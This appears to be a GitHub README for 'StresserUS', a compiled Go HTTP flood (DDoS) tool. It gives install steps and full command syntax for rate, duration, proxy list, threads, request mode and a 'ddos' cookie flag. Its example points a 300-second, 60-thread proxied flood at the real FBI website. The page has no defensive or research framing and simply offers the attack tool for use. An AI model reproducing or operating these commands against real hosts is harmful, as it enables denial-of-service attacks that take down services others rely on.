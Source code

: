 # StresserUS-httpflood
golang httpflood compiled | 2021-11-14

# HOW TO USE
```
apt install golang-go
chmod +x StresserUS 
```

# CMD USAGE
```
./StresserUS version=2 host=<url> limit=<rate> time=<time> list=<proxyfile> threads=<thread> mode=<GET/POST> cookie=<ddos=true> data=<post=true>
```
# EXAMPLE
```
./StresserUS version=2 host=https://www.fbi.gov/ limit=64 time=300 list=http.txt threads=60 mode=GET
```
